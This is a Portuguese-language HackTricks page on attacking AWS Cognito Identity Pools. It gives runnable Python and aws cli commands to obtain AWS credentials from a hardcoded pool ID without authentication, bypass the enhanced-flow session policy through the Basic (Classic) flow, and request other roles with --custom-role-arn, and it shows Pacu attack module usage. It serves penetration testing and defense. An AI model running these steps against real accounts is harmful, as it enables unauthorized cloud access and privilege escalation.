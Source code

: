 # Cognito Identity Pools

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Participe do grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou do grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

Com um identity pool, seus usuários podem **obter credenciais temporárias da AWS para acessar serviços da AWS**, como Amazon S3 e DynamoDB. Identity pools suportam usuários convidados anônimos, bem como os seguintes provedores de identidade que você pode usar para autenticar usuários para identity pools:

* Amazon Cognito user pools
* Login social com Facebook, Google, Login with Amazon e Sign in with Apple
* Provedores OpenID Connect (OIDC)
* Provedores de identidade SAML
* Identidades autenticadas por desenvolvedores

### Cognito Sync

Para gerar sessões de Identity Pool, você primeiro precisa **gerar um Identity ID**. Este Identity ID é a **identificação da sessão daquele usuário**. Essas identificações podem ter até 20 conjuntos de dados que podem armazenar até 1MB de pares chave-valor.

Isso é **útil para manter informações de um usuário** (que sempre estará usando o mesmo Identity ID).

Além disso, o serviço **cognito-sync** é o serviço que permite **gerenciar e sincronizar essas informações** (nos conjuntos de dados, enviando informações em streams e mensagens SNS...).

### Ferramentas para pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), o framework de exploração da AWS, agora inclui os módulos "cognito\_\_enum" e "cognito\_\_attack" que automatizam a enumeração de todos os ativos Cognito em uma conta e sinalizam configurações fracas, atributos de usuários usados para controle de acesso, etc., e também automatizam a criação de usuários (incluindo suporte a MFA) e escalonamento de privilégios baseado em atributos customizados modificáveis, credenciais de identity pool utilizáveis, funções assumíveis em tokens de id, etc.

Para uma descrição das funções dos módulos, veja a parte 2 do [post do blog](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). Para instruções de instalação, consulte a página principal do [Pacu](https://github.com/RhinoSecurityLabs/pacu).

#### Uso

Exemplo de uso do cognito\_\_attack para tentar a criação de usuário e todos os vetores de privesc contra um determinado identity pool e cliente de user pool:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
Uso de exemplo do cognito\_\_enum para coletar todos os user pools, user pool clients, identity pools, usuários, etc. visíveis na conta AWS atual:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) é uma ferramenta CLI em python que implementa diferentes ataques ao Cognito, incluindo criação indesejada de conta e escalonamento de pool de identidade.

#### Instalação
```bash
$ pip install cognito-scanner
```
#### Uso
```bash
$ cognito-scanner --help
```
Para mais informações, acesse https://github.com/padok-team/cognito-scanner

## Acessando Papéis do IAM

### Não Autenticado

A única coisa que um atacante precisa saber para **obter credenciais da AWS** em um aplicativo Cognito como usuário não autenticado é o **ID do Pool de Identidades**, e este **ID deve estar codificado** na **aplicação** web/móvel para que possa usá-lo. Um ID se parece com isso: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (não é possível forçar bruta).

{% hint style="success" %}
O **papel não autenticado do IAM Cognito criado via é chamado** por padrão `Cognito_<nome do Pool de Identidades>Unauth_Role`
{% endhint %}

Se você encontrar um ID de Pools de Identidades codificado e ele permitir usuários não autenticados, você pode obter credenciais da AWS com:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
Ou você poderia usar os seguintes **comandos aws cli**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Observe que por padrão um usuário cognito **não autenticado NÃO PODE ter nenhuma permissão, mesmo que tenha sido atribuída via política**. Verifique a seção seguinte.
{% endhint %}

### Fluxo de Autenticação Avançado vs Básico

A seção anterior seguiu o **fluxo de autenticação avançado padrão**. Esse fluxo estabelece uma [**política de sessão**](../../aws-basic-information/#session-policies) **restritiva** para a sessão de função IAM gerada. Esta política só permitirá que a sessão [**use os serviços desta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (mesmo que a função tivesse acesso a outros serviços).

No entanto, há uma maneira de contornar isso, se o **Identity pool tiver "Basic (Classic) Flow" ativado**, o usuário poderá obter uma sessão usando esse fluxo que **não terá essa política de sessão restritiva**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Se você receber este **erro**, é porque o **fluxo básico não está habilitado (padrão)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Tendo um conjunto de credenciais IAM, você deve verificar [quais acessos você tem](../../#whoami) e tentar [escalar privilégios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Lembre-se de que **usuários autenticados** provavelmente terão **permissões diferentes**, então se você puder **se inscrever dentro do aplicativo**, tente fazer isso e obter as novas credenciais.
{% endhint %}

Também podem existir **papéis** disponíveis para **usuários autenticados acessando o Identity Pool**.

Para isso, você pode precisar ter acesso ao **provedor de identidade**. Se for um **Cognito User Pool**, talvez você possa abusar do comportamento padrão e **criar um novo usuário você mesmo**.

{% hint style="success" %}
O **papel IAM Cognito autenticado criado via é chamado** por padrão `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

De qualquer forma, o **exemplo a seguir** espera que você já tenha feito login dentro de um **Cognito User Pool** usado para acessar o Identity Pool (não esqueça que outros tipos de provedores de identidade também podem ser configurados).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtenha o identity_id da resposta do comando anterior
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# No IdToken você pode encontrar papéis aos quais um usuário tem acesso por causa dos Grupos do User Pool
# Use o --custom-role-arn para obter credenciais para um papel específico
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
É possível **configurar diferentes papéis IAM dependendo do provedor de identidade** que o usuário está logando ou mesmo apenas dependendo **do usuário** (usando claims). Portanto, se você tiver acesso a diferentes usuários através do mesmo ou de diferentes provedores, pode valer a pena **fazer login e acessar os papéis IAM de todos eles**.
{% endhint %}

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você quiser ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**merchandising oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas dicas de hacking enviando PRs para os repositórios github** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
